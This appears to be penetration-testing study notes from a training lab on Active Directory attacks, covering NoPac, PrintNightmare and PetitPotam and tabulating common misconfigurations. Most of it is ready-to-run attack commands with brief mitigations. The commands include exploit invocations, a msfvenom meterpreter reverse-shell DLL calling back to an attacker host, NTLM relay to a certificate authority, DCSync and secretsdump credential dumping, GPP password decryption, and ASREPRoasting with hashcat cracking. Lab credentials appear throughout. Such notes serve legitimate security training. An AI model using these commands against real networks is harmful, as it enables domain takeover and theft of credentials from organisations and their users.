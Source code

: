 # Bleeding Edge Vulnerabilities & Misconfigurations in Active Directory Lateral Movement

---

## Introduction

Many organizations delay patching and overlook configuration best practices, leaving them exposed to high-impact vulnerabilities and misconfigurations. This section covers both recent, high-profile attacks (NoPac, PrintNightmare, PetitPotam) and a range of common but critical misconfigurations. Each is mapped to the tools and commands used for detection and exploitation, with technical details and concise explanations.

---

## Scenario Setup

- **Linux attack host:** SSH into ATTACK01.
- **Windows attack host:** Use MS01 for Rubeus/Mimikatz demos.
- **Switching platforms:** Use RDP for Windows, SSH from Windows to Linux as needed.
- **All tools referenced are open-source and available on GitHub.**

---

## 1. Bleeding Edge Vulnerabilities

### 1.1 NoPac (SamAccountName Spoofing)
- **CVE-2021-42278 & CVE-2021-42287**
- **Impact:** Privilege escalation from any standard domain user to Domain Admin.
- **Technique:** Change a computer account's SamAccountName to match a DC, then request Kerberos tickets as the DC.
- **Pre-requisite:** `ms-DS-MachineAccountQuota > 0` (default: 10).

**Key Commands:**
```bash
# Install tools
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket && python setup.py install
git clone https://github.com/Ridter/noPac.git

# Scan for vulnerability
sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap

# Exploit
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap

# DCSync
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator
```
**Mitigation:** Set `ms-DS-MachineAccountQuota` to 0, patch DCs.

---

### 1.2 PrintNightmare (CVE-2021-34527 & CVE-2021-1675)
- **Impact:** RCE and privilege escalation via Print Spooler service.
- **Technique:** Remote SYSTEM shell or relay attacks on unpatched hosts.

**Key Commands:**
```bash
# Clone exploit and install Impacket
git clone https://github.com/cube0x0/CVE-2021-1675.git
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket && python3 ./setup.py install

# Check for Print Spooler exposure
rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'

# Generate DLL payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll

# Host DLL
sudo smbserver.py -smb2support CompData /path/to/backupscript.dll

# Start handler (Metasploit)
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 172.16.5.225
set LPORT 8080
run

# Run exploit
sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'
```
**Mitigation:** Patch all hosts, disable Print Spooler where not needed.

---

### 1.3 PetitPotam (CVE-2021-36942, MS-EFSRPC)
- **Impact:** LSA spoofing, NTLM relay to AD CS, domain compromise.
- **Technique:** Relay DC authentication to vulnerable CA, obtain certificate, perform DCSync.

**Key Commands:**
```bash
# Start ntlmrelayx.py targeting AD CS
sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController

# Trigger authentication from DC
python3 PetitPotam.py 172.16.5.225 172.16.5.5

# Request TGT for DC using gettgtpkinit.py
python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$ -pfx-base64 <base64cert> dc01.ccache
export KRB5CCNAME=dc01.ccache

# DCSync with secretsdump.py
secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```
**Mitigation:** Patch for CVE-2021-36942, harden AD CS, restrict templates, monitor for relaying.

---

## 2. Common Misconfigurations & Attacks

### Table: Misconfigurations, Vulnerabilities, and Attacks (with Example Commands)

| Misconfiguration / Vulnerability                | Attack / Abuse / Outcome                                 | Example Commands / Tools                                                                                   |
|------------------------------------------------|----------------------------------------------------------|------------------------------------------------------------------------------------------------------------|
| **Exchange Windows Permissions group**          | DCSync privilege escalation, domain compromise           | `net group "Exchange Windows Permissions" /domain`<br>BloodHound<br>PowerView                              |
| **PrivExchange (Exchange PushSubscription flaw)**| Relay Exchange auth to LDAP, dump NTDS, DA access        | `python3 privexchange.py -u user -p pass -d domain -t <exchange-server>`                                   |
| **Organization Management group**               | Full Exchange/OU control, mailbox access                 | `net group "Organization Management" /domain`<br>BloodHound                                                |
| **Print Spooler enabled (MS-RPRN bug)**         | Printer Bug: NTLM relay to LDAP, DCSync, RBCD            | `rpcdump.py @<target-ip> &#124; grep MS-RPRN`<br>`Import-Module .\SecurityAssessment.ps1; Get-SpoolStatus -ComputerName <DC>`<br>`python3 SpoolSample.py <attacker-ip> <target-ip>` |
| **Unpatched MS14-068**                          | Kerberos PAC forgery, escalate to Domain Admin           | `python ms14-068.py -u user -p pass -d domain -s <dc-ip>`                                                  |
| **Weak/default LDAP credentials in devices**    | Credential sniffing, initial foothold                    | `nc -lvp 389`<br>Change LDAP IP in device/printer config                                                   |
| **AD DNS zone readable by users**               | DNS record enumeration, host discovery                   | `adidnsdump -u inlanefreight\\forend ldap://172.16.5.5`<br>`adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 -r` |
| **Passwords in user Description/Notes fields**  | Credential discovery, lateral movement                   | `Get-DomainUser * &#124; Select-Object samaccountname,description &#124; Where-Object {$_.Description -ne $null}`                             |
| **PASSWD_NOTREQD flag set on accounts**         | Weak/no password, easy brute-force or login              | `Get-DomainUser -UACFilter PASSWD_NOTREQD &#124; Select-Object samaccountname,useraccountcontrol`                     |
| **SYSVOL/scripts readable by all**              | Passwords in scripts, privilege escalation               | `ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts`<br>`cat \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts\reset_local_admin_pass.vbs` |
| **GPP cpassword in SYSVOL**                     | Decrypt local admin passwords, lateral movement          | `gpp-decrypt <cpassword>`<br>`crackmapexec smb -M gpp_password`<br>`Get-GPPPassword.ps1`                   |
| **Registry.xml in SYSVOL**                      | Autologon credentials, lateral movement                  | `crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin`<br>`Get-GPPAutologon.ps1`            |
| **Do not require Kerberos pre-auth (UAC flag)** | ASREPRoasting: offline password cracking                 | `.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat`<br>`GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users`<br>`kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt` |
| **GPOs with weak ACLs**                         | GPO abuse: add local admin, run code, persistence        | `Get-DomainGPO &#124; select displayname`<br>`Get-DomainGPO &#124; Get-ObjectAcl`<br>`SharpGPOAbuse.exe --AddLocalAdmin /GPOName:<GPO> /User:<user>`<br>BloodHound |
| **Password reuse across accounts**              | Lateral movement, privilege escalation                   | `crackmapexec smb ... --local-auth`<br>Password spraying tools                                              |
| **Unconstrained/Constrained Delegation**        | Ticket theft, lateral movement, privilege escalation     | BloodHound<br>Rubeus<br>Impacket tools                                                                      |
| **AD CS misconfigurations**                     | ESC1-8 attacks, domain persistence/compromise            | `certipy`<br>ADCS enumeration scripts                                                                       |

---

### Example: Enumerating for Printer Bug (MS-RPRN) in PowerShell

```powershell
Import-Module .\SecurityAssessment.ps1
Get-SpoolStatus -ComputerName ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```

### Example: Enumerating DNS Records with adidnsdump

```bash
adidnsdump -u inlanefreight\\forend ldap://172.16.5.5
adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 -r
```

### Example: Finding Passwords in Description Field

```powershell
Get-DomainUser * | Select-Object samaccountname,description | Where-Object {$_.Description -ne $null}
```

### GPP Password Decryption

```bash
gpp-decrypt <cpassword>
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_password
```

### ASREPRoasting

#### Method 1: PowerView + Rubeus + Hashcat

```powershell
# 1. Enumerate users with pre-auth not required
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

# 2. Extract AS-REP hash
.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
```

```bash
# 3. Crack hash offline
hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt
```

